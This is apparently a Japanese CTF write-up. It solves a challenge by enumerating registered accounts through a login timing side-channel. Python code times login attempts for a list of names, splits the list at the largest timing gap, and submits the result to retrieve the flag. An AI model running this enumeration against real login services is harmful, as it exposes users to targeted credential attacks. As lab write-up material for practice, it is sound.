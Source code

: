 アカウントが存在する場合と存在しない場合で認証処理に時間差が発生することを利用する。

まず、下記の処理によって認証処理に時間がかかるアカウントを抽出する。

この時、処理時間が最も離れている2つのアカウント間でリストを分割し、処理時間が長い方のリストに含まれるアカウントを登録されているものとして扱う。

```python
def enumarate_accounts():
    employees = [
        "Arthur", "Barbara", "Christine", "David", "Elbert", 
        "Franklin", "George", "Harris", "Ivan", "Jane", 
        "Kevin", "Lazarus", "Marc", "Nathan", "Oliver", 
        "Paul", "Quentin", "Randolph", "Scott", "Tony", 
        "Ulysses", "Vincent", "Wat", "Ximena", "Yvonne", "Zalmon"
    ]

    T = []
    for employee in employees:
        t = time.time()
        _ = requests.post(f"http://{os.getenv('CTF4B_HOST')}:{os.getenv('CTF4B_PORT')}", {"name": f"{employee}", "password": "x"})
        consume = time.time() - t

        T.append((employee, consume))

    T.sort(key=lambda t: t[1], reverse=True)

    maxdiff = 0
    maxdiff_i = -1
    for i in range(1, len(T)):
        if abs(T[i][1] - T[i-1][1]) > maxdiff:
            maxdiff = abs(T[i][1] - T[i-1][1])
            maxdiff_i = i

    return sorted([employee for employee, consume in T[:maxdiff_i]])
```

上記の処理によって登録されたアカウントを列挙した後は、それらを選択し`/challenge`にPOSTすれば良い。

```python
def solve(accounts):
    response = requests.post(f"http://{os.getenv('CTF4B_HOST')}:{os.getenv('CTF4B_PORT')}/challenge", {"answer": accounts})
    soup = BeautifulSoup(response.text, "html.parser")
    print(f"[*] FLAG: {soup.select('#message')[0].text}")
```